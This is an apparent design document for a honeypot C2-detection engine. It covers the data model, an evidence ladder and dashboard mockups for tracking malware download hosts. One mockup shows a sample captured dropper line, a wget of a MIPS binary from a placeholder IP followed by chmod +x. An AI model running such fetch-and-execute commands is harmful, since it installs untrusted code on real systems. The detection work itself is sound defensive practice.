

# c2-engine — Design Plan

> Central C2-detection engine for a STINGAR/Cowrie honeypot fleet.
> Successor to the `enrichment/` package on the cowrie fork's `stingar-enrichment`
> branch (abandoned 2026-06-04; reference-only via that branch's git history).
>
> Companion docs: **DESIGN_PARITY.md** (closing the GreyNoise gaps — entity
> rollup, reason layer, VirusTotal, blocklist) · **DESIGN_AGENT.md** (analyst
> conversational access — our own MCP+ES|QL agent now, Elastic Agent Builder if
> we reach 9.4+/Enterprise).

## 1. Mission

Surface **command-and-control infrastructure** from honeypot traffic:

- Map active C2 hosts, classified by an evidence-based stage ladder
  (GreyNoise C2 Detection model, adapted for static analysis).
- One click on a C2 pivots the entire dashboard: which honeypots it attacked,
  which src_ips called it, which files/scripts it served, and where those
  files call back to (the chain).
- The engine **grounds and groups** — immutable evidence rows. It never
  renders verdicts; interpretation (intel escalation, family attribution
  beyond cheap rules) is a deferred reason layer.

### Use cases

| # | Use case | Mechanic |
|---|---|---|
| U1 | Map of active C2s, styled by stage | Maps layer over the ledger, max(evidence_rank) per c2_host |
| U2 | Click C2 → honeypots it attacked | global filter `c2_host:X` → terms(sensor_hostname) |
| U3 | Click C2 → src_ips that called it | same filter → terms(src_ip) |
| U4 | Click C2 → files/scripts it served | same filter + `evidence:served_file` → saved search |
| U5 | "What kind of payloads does this C2 give out" | same filter → terms(family), terms(sha256), content view |
| U6 | Top threats across the fleet | terms(family) fleet-wide (GreyNoise "Top Threats") |
| U7 | Chain view: file → onward callbacks | `callbacks[]` + `c2_via_sha256` columns |
| U8 | Loader-is-scanner detection | `self_hosted:true` filter |
| U9 | "Was this IP ever a C2?" (history) | date histogram + evidence breakdown over the ledger |

## 2. Decision record

| Decision | Choice | Why |
|---|---|---|
| Deployment | **Central service** — Fluentd hop on the STINGAR server; sensors near-stock | Fleet ops, one version, STINGAR UI/Langstroth deployability, backfill; honeypot volume makes central throughput a non-issue |
| Repo | Separate repo (this one); sensor-side changes stay in the cowrie fork | The service no longer rides on honeypot hosts |
| Old code | Reference only — rewrite fresh, consult `stingar-enrichment` branch history | Architecture and data model both invalidated |
| Index strategy | **One new index** (`stingarc2-*` observation ledger) + additive fields on existing `stingar-*` | Payload = strongest evidence kind, not a separate entity; no transform to operate; staleness impossible by construction |
| Entity index | **Deferred** — add `stingarc2-entities` (ES transform + retention_policy) only when the reason layer or a blocklist API needs it | Purely derived state; additive later with zero migration |
| C2 lifecycle | Ledger is permanent; all "active C2" views are time-filtered at query time | C2 IPs live ~3 days; accumulated entities go stale and poison stage |
| Stage model | GreyNoise 3-stage ladder, chain-propagated stage 2, static instead of sandbox | Evidence-based, names the fact not a score |
| Binaries | **First-class evidence** — hashes/size/magic/family/strings-callbacks; content inlined for UTF-8 scripts only | Cowrie traffic is Mirai-family ELF-dominated; scripts-only guts the feed |
| Byte transport | v1: sensor inlines all download bytes ≤5 MB in the session doc; engine decides script-vs-binary centrally, strips bytes before sessions land in ES | Simplest contract; tighten later if Fluentd channel strains |

## 3. Architecture

### 3.1 Diagram



```
  HONEYPOT HOST (thin — N of these, stock 2-container shape)
 ┌────────────────────────────────────────────────┐
 │ Attacker ──ssh/telnet──▶ Cowrie                │
 │              │  url_fetcher: in-session GET,   │
 │              │  attack-time resolved IP        │
 │              ▼  session.closed doc             │
 │              │  WITH bytes inlined (≤5 MB)     │
 │              ▼                                 │
 │        Fluent Bit (stock) ─── shared key ──────┼──┐
 └────────────────────────────────────────────────┘  │
  STINGAR CENTRAL SERVER                             ▼
 ┌───────────────────────────────────────────────────────────┐
 │                    Fluentd :24224                          │
 │   match stingar.enrichable.* ─▶ c2-engine ─▶ ES directly   │
 │   match stingar.events.*     ─▶ ES (stock path, unchanged) │
 │            ┌────────────────────────────────┐              │
 │            │ c2-engine (stateless)          │              │
 │            │ 1 extract  hosts/files/chains  │              │
 │            │ 2 enrich   geo · asn · family  │              │
 │            │ 3 write    session + ledger    │              │
 │            └────────────────────────────────┘              │
 │                                                            │
 │   stingar-*    ◀── stock events + enriched sessions        │
 │   stingarc2-* ◀── ledger rows (new sensors only)         │
 │                                   │                        │
 │   Kibana  ◀── ES queries ─────────┘                        │
 └───────────────────────────────────────────────────────────┘
```

### 3.2 Data flow walk-through

1. Attacker hits Cowrie. `url_fetcher` fetches every URL referenced in
   commands **in-session, from Cowrie's IP**, recording the attack-time
   resolved IP; bytes land in the downloads dir.
2. On `session.closed`, `output_stingar` emits one session doc with download
   bytes inlined (≤5 MB each). **New sensors** tag `stingar.enrichable.cowrie`;
   stock sensors still tag `stingar.events.cowrie` (unchanged legacy path).
3. Sensor Fluent Bit forwards to central Fluentd (shared-key auth).
4. Fluentd geo-filters `stingar.enrichable.*` and forwards to c2-engine. Stock
   `stingar.events.*` keeps the existing ES match. If the engine is down,
   Fluentd buffers enrichable events and retries: they delay, never drop.
5. The engine, per session:
   - **extract**: C2 hosts from commands (`shell_reference`); files from
     inlined bytes (`served_file` — hash×3, magic, script-vs-binary,
     interpreter, family rules, callbacks via content regex or binary
     strings); onward hosts (`file_callback` rows with `c2_via_sha256`).
   - **enrich**: GeoIP/ASN (MaxMind, central DB), `self_hosted`,
     `evidence_rank`; session-level `playbook_hash`, `hassh`, `c2_hosts[]`.
   - **write**: session doc (bytes stripped, additive fields) to `stingar-*`;
     evidence rows to `stingarc2-*` (direct ES, no Fluentd return hop).
6. Sensor checkins (`checkin.py` "sensor" messages) bypass the engine entirely.

### 3.3 Why central (recorded trade-off)

Per-sensor enrichment puts fast-iterating code in the slowest-deploying place.
Central: one deploy, instant fleet-wide logic upgrades, sensors stay
deployable from the STINGAR UI, backfill possible (CLI replay over ES export →
reinject). Cost: bytes ride the Fluentd channel; acceptable at honeypot volume,
revisit transport if Mirai waves strain it (fallback: hash binaries at sensor,
ship metadata + strings hits only).

## 4. Data contracts

### 4.1 `stingar-*` (existing index — additive contract)

Same doc, same tag family, same index, same routing. **No existing field is
renamed, retyped, or rewritten.**

Wire shape verified against the cowrie fork's `output_stingar` plugin source
(2026-06-05): one doc per session on `cowrie.session.closed`, tag
`<app>.enrichable.cowrie` (new sensors; stock still use `<app>.events.cowrie`);
sensor identity nested under `sensor.{uuid,hostname,
tags,asn}`; session id at `hp_data.session`; hassh precomputed at
`hp_data.kex.hassh` (our top-level `hassh` is a pivot-convenience copy);
files at `hp_data.files[].{url,outfile,shasum,action,status}`. The sensor-side
additions land inside `files[]` as `content_b64` + `resolved_ip`.

```jsonc
{
  // ...stock STINGAR session doc, byte-for-byte...
  "c2_hosts":       ["59.96.137.61", "evil.example.com"],  // keyword[] — pivot
  "playbook_hash":  "ab12…",
  "hassh":          "92674…",
  "enrich_version": "1"
  // REMOVED in flight: inlined download bytes (transport-only field)
}
```

### 4.2 `stingarc2-*` (new — the evidence ledger)

One immutable row per (session, c2_host, evidence). Append-only, time-series,
ILM-managed (e.g. 1y). The single source of truth; every C2 view derives
from it at query time.

| Field | Type | On | Notes |
|---|---|---|---|
| `schema_version` | keyword | all | `"1"` |
| `ts` | date | all | session close time |
| `sensor_uuid` / `sensor_hostname` | keyword | all | which honeypot |
| `src_ip` | ip | all | the attacker |
| `session_id` | keyword | all | join to `stingar-*` |
| `c2_host` | keyword | all | **THE pivot** — same name everywhere |
| `c2_host_kind` | keyword | all | `ip` \| `domain` |
| `c2_resolved_ip` | ip | all | attack-time resolution from url_fetcher |
| `c2_url` / `c2_port` / `c2_path` | keyword/int | where known | forensic reference |
| `c2_geo` | **geo_point** | all | explicit template mapping |
| `c2_country` / `c2_asn` / `c2_asn_org` | keyword/long | all | MaxMind |
| `evidence` | keyword | all | `shell_reference` \| `served_file` \| `file_callback` |
| `evidence_rank` | byte | all | 0 \| 1 \| 2 — styling + query-time stage |
| `self_hosted` | boolean | all | `c2_host == src_ip` (loader-is-scanner) |
| `file_kind` | keyword | served_file | `script` \| `binary` |
| `sha256` / `sha1` / `md5` | keyword | served_file | all three for TI interop |
| `size` | long | served_file | bytes |
| `magic` | keyword | served_file | e.g. `ELF 32-bit MIPS` |
| `family` | keyword | served_file | rules-based, `category.family/format`, nullable |
| `interpreter` | keyword | served_file (script) | `sh` \| `bash` \| `python` … |
| `content` | text (no keyword sub) | served_file (script) | UTF-8 only, ≤256 KB, `content_truncated` flag |
| `callbacks` | keyword[] | served_file | hosts found inside content / binary strings |
| `c2_via_sha256` | keyword | file_callback | chain edge: which file revealed this host |

### 4.3 Evidence ladder → stage (computed at query time)

| Rank | Evidence | Meaning | GreyNoise analog | Action cue |
|---|---|---|---|---|
| 0 | `shell_reference` | host seen in attacker commands; no bytes retrieved | Unconfirmed | investigate, don't escalate |
| 1 | `served_file` | we hold bytes it served (in-session download) | Stage 1 — File Downloaded | confirmed payload server |
| 2 | `file_callback` | host referenced **inside** a stage-1 artifact | Stage 2 — C2 Suspected | chain-propagated; likely true C2 |

Stage of a C2 = `max(evidence_rank)` over the inspected time window.
Honesty caveat (documented on the dashboard, GreyNoise-style): our stage 2 is
"referenced by malware" (static extraction); GreyNoise's is "contacted by
malware" (sandbox). No sandbox here, by design.

## 5. Components

### 5.1 This repo (`c2-engine`)

```
c2-engine/
├── DESIGN.md                  ← this file
├── src/c2engine/
│   ├── ingest/                Fluent forward server in; re-emit client out
│   ├── model/                 pydantic wire contracts (Session in; SessionOut,
│   │                          C2Observation out) — written FIRST, m1
│   ├── extract/
│   │   ├── hosts.py           shell_reference rows from commands
│   │   ├── files.py           served_file rows: hashes, magic, script/binary,
│   │   │                      interpreter, content handling
│   │   └── chains.py          callbacks from script content + binary strings
│   │                          → callbacks[] + file_callback rows
│   ├── enrich/
│   │   ├── geo.py             MaxMind → c2_geo / c2_asn / c2_country
│   │   ├── family.py          rules-based category.family/format labels
│   │   └── session.py         playbook_hash, hassh, c2_hosts[], byte-strip
│   └── reason/                ── PHASE 2, not in v1 ──
├── es/
│   ├── templates/             index template for stingarc2-* (geo_point!)
│   ├── ilm/                   retention policy
│   └── dashboards/            exported Kibana saved objects (§7)
├── deploy/
│   ├── docker-compose.overlay.yml   additive overlay for STINGAR server
│   └── fluentd/                     match/route rules for the engine hop
├── cli.py                     offline replay: session NDJSON → evidence NDJSON
│                              (doubles as the backfill tool)
└── tests/                     golden session fixtures → expected rows
```

No fields/lanes plugin registry (old design) — three evidence kinds and two
outputs are plain functions until a fourth consumer exists.

### 5.2 Cowrie fork (sensor side — separate workstream)

1. `output_stingar`: inline download bytes (≤5 MB/file) into the session doc.
2. `url_fetcher`: record attack-time `c2_resolved_ip` per fetched URL.
3. `deploy/`: collapse to STINGAR's stock 2-container compose
   (cowrie + fluentbit); delete the enrichment sidecar, the healthcheck
   passthrough hack, and the shared downloads volume.
4. Delete `enrichment/` (history preserved on the branch).

## 6. Milestones

| # | Deliverable | Proves | Exit criterion |
|---|---|---|---|
| 1 | `model/` schemas + golden session fixtures | the wire contracts | fixtures validate; contracts reviewed |
| 2 | `extract/` + `enrich/` behind the CLI | the data model, offline | fixture sessions → expected evidence NDJSON in CI |
| 3 | `ingest/` hop + Fluentd rules + compose overlay | deployable on a STINGAR server | dev stack: cowrie attack → rows in both indices |
| 4 | ES template + ILM + sensor-side cowrie changes | end-to-end with real bytes | binary + script downloads produce correct served_file/file_callback rows |
| 5 | Kibana dashboards (§7) as exported saved objects | the product | click-through U1–U8 works on dev data |
| 6 | *(trigger-based)* `reason/` + `stingarc2-entities` transform | intel escalation, blocklist feed | only when triggered |

## 7. Dashboards

All C2 panels read `stingarc2-*`; session drill-down reads `stingar-*`.
Clicking any `c2_host` value anywhere adds the global filter that drives
every other panel. Default time window: **last 7 days** (C2 lifetime ~3 days;
the ledger keeps history for U9-style lookbacks).

### 7.1 Dashboard 1 — "C2 Command Center" (the landing page)

```
┌────────────────────────────── C2 COMMAND CENTER ─────────────── ⏱ last 7d ─┐
│                                                                             │
│ ┌─ STAGE OVERVIEW ──┐ ┌──────────── ACTIVE C2 MAP ───────────────────────┐ │
│ │ Unconfirmed   312 │ │        ·                    ●                    │ │
│ │ Stage 1        47 │ │   ◐         ·      ●●                ·          │ │
│ │ Stage 2         9 │ │        ●           ◐        ·     ◐             │ │
│ │ (unique c2_host   │ │              ·                        ●          │ │
│ │  split by max     │ │   ● stage2   ◐ stage1   · unconfirmed (dim)     │ │
│ │  evidence_rank)   │ │   ← click dot ⇒ global filter c2_host:X         │ │
│ └───────────────────┘ └──────────────────────────────────────────────────┘ │
│                                                                             │
│ ┌─ TOP THREATS ────────────┐ ┌─ TOP C2s ─────────────────────────────────┐ │
│ │ trojan.mirai/possible 38 │ │ c2_host        stg sens srcs files last   │ │
│ │ downloader.shell      21 │ │ 59.96.137.61    1   7   23    3   2h  ←   │ │
│ │ miner.xmrig            4 │ │ 45.92.1.50      2   4   11    2   5h      │ │
│ │ trojan.gafgyt/possible 3 │ │ evil.example.…  1   2    6    1   1d      │ │
│ │ (terms: family)          │ │ (terms: c2_host; max rank, uniq counts)   │ │
│ └──────────────────────────┘ └───────────────────────────────────────────┘ │
│                                                                             │
│ ┌─ EVIDENCE LADDER (markdown) ──────────────────────────────────────────┐  │
│ │ ⓘ Payload-derived intelligence. 0 referenced in commands ·            │  │
│ │   1 served us a file · 2 referenced inside a served file (static)     │  │
│ └───────────────────────────────────────────────────────────────────────┘  │
└─────────────────────────────────────────────────────────────────────────────┘
```

| Panel | Viz | Query |
|---|---|---|
| Stage overview | Lens table/metric | unique_count(c2_host) bucketed by max(evidence_rank) per host |
| Active C2 map | Maps, top-terms layer on `c2_host` | geo centroid of c2_geo, metric max(evidence_rank) → color, count → size |
| Top Threats | Lens bar | terms(family), filter evidence:served_file |
| Top C2s | Lens table | terms(c2_host): max(evidence_rank), uniq(sensor_hostname), uniq(src_ip), uniq(sha256), max(ts) |
| Evidence ladder | Markdown | static — provenance honesty, GreyNoise-style |

### 7.2 Dashboard 2 — "C2 Detail" (same page, post-click state)

State of the dashboard after `c2_host: 59.96.137.61` is pinned:

```
┌── C2 COMMAND CENTER ── filter: c2_host=59.96.137.61 ✕ ──────── ⏱ last 7d ─┐
│                                                                            │
│ ┌─ THIS C2 ────────────────────┐ ┌─ ACTIVITY ───────────────────────────┐ │
│ │ STAGE 1 · self_hosted ⚠      │ │ evidence rows / day (date histogram, │ │
│ │ first 03-14 · last 03-16     │ │ stacked by evidence kind)            │ │
│ │ IN · AS17813 · geo pin       │ │ ▂▂▅█▃ ░shell ▓served █callback      │ │
│ └──────────────────────────────┘ └──────────────────────────────────────┘ │
│                                                                            │
│ ┌─ HONEYPOTS HIT ──┐ ┌─ SRC IPs CALLING IT ─┐ ┌─ FILES SERVED ──────────┐ │
│ │ sensor-dmz-1  41 │ │ 59.96.137.61 ⚠ self  │ │ sha256… mirai  ELF 134K │ │
│ │ sensor-aws-2  17 │ │ 103.4.2.9            │ │ sha256… down.  sh    4K │ │
│ │ sensor-eu-1    3 │ │ 45.11.8.2            │ │ sha256… mirai  ELF 132K │ │
│ │ terms(sensor_…)  │ │ terms(src_ip)        │ │ terms(sha256)+family    │ │
│ └──────────────────┘ └──────────────────────┘ └─────────────────────────┘ │
│                                                                            │
│ ┌─ PAYLOAD TABLE (saved search, evidence:served_file) ───────────────────┐ │
│ │ ts    file_kind sha256  family            size  interpreter  callbacks │ │
│ │ 14:02 script    ab12…   downloader.shell  4.2K  sh           1.2.3.4   │ │
│ │  └─ content ▸ #!/bin/sh\nwget http://1.2.3.4/bins/mips; chmod +x …     │ │
│ │ 13:48 binary    f6c9…   trojan.mirai/pos  134K  —            5.6.7.8   │ │
│ └─────────────────────────────────────────────────────────────────────────┘ │
│                                                                            │
│ ┌─ CHAIN: WHERE ITS FILES CALL BACK TO ─────┐ ┌─ RAW SESSIONS (stingar-*)┐ │
│ │ this C2 ─serves→ sha ─refs→ next host     │ │ session_id  src_ip  cmds │ │
│ │ ab12… → 1.2.3.4   (click → repivot)       │ │ a1b2…  103.4.2.9    14   │ │
│ │ f6c9… → 5.6.7.8                           │ │ (filter c2_hosts:X)      │ │
│ └───────────────────────────────────────────┘ └──────────────────────────┘ │
└────────────────────────────────────────────────────────────────────────────┘
```

The chain panel's `next host` values are themselves `c2_host` values —
clicking repivots the whole dashboard one hop down the chain (U7).

### 7.3 Dashboard 3 — "Payload Explorer" (file-first view)

```
┌──────────────────────────── PAYLOAD EXPLORER ────────────────── ⏱ last 7d ─┐
│ filter bar: family ▾ · file_kind ▾ · interpreter ▾ · self_hosted ▾         │
│                                                                             │
│ ┌─ FAMILIES OVER TIME ───────────────┐ ┌─ DISTINCT FILES BY FAMILY ──────┐ │
│ │ stacked area, date histogram       │ │ pie/treemap: uniq(sha256)       │ │
│ │ split by family                    │ │ by family                       │ │
│ └────────────────────────────────────┘ └─────────────────────────────────┘ │
│                                                                             │
│ ┌─ FILE CATALOG (one row per distinct sha256 — top hits by last seen) ───┐ │
│ │ sha256   family             kind   size  C2s  sensors  first    last   │ │
│ │ f6c9…    trojan.mirai/pos   ELF    134K   3      7     03-14    03-16  │ │
│ │ ab12…    downloader.shell   script 4.2K   1      2     03-15    03-15  │ │
│ │ ← click sha256 ⇒ filter: every C2 that served this exact file          │ │
│ └─────────────────────────────────────────────────────────────────────────┘ │
│                                                                             │
│ ┌─ SCRIPT SOURCE (saved search, file_kind:script) ───────────────────────┐ │
│ │ expandable content column — the script source is the document          │ │
│ └─────────────────────────────────────────────────────────────────────────┘ │
└─────────────────────────────────────────────────────────────────────────────┘
```

Cross-sensor payload dedupe (the old design's `terms` on sha256) lives here:
clicking a sha256 answers "which C2s/sensors saw this exact artifact."

## 8. Failure modes & ops

| Failure | Behavior |
|---|---|
| c2-engine down | Fluentd buffers `stingar.enrichable.*`, retries; events delay, never drop. Stock `stingar.events.*` unaffected |
| Engine bug on a malformed session | log + emit session unenriched (bytes stripped, no additive fields) — never block the session stream |
| MaxMind DB stale/missing | rows emit without geo fields; map thins, ledger stays correct |
| Mirai wave floods bytes over Fluentd | acceptable at honeypot volume; escape hatch = sensor-side hashing (recorded in §3.3) |
| Logic upgrade | redeploy engine (new sessions) + `cli.py` replay over ES export (history) |

## 9. Deferred — with explicit triggers

> The triggers below have now fired (GreyNoise-parity push). See
> **[DESIGN_PARITY.md](DESIGN_PARITY.md)** for the implementation plan
> (entity rollup + reason layer + VirusTotal + blocklist feed).

| Item | Trigger |
|---|---|
| `stingarc2-entities` (ES transform, retention_policy max_age=30d) | reason layer ships, OR a downstream consumer needs a dumb feed (blocklist API) |
| `reason/` intel escalation (known-malware SHA, HASSH toolkits, VT) | needs the entity index as its writable home |
| Binary sample archive (`stingar-binaries-*`) | someone actually needs the bytes, not just hashes |
| Sensor-side byte hashing (lighter transport) | Fluentd channel strain in practice |
| Sandbox detonation | never (out of scope by design) |
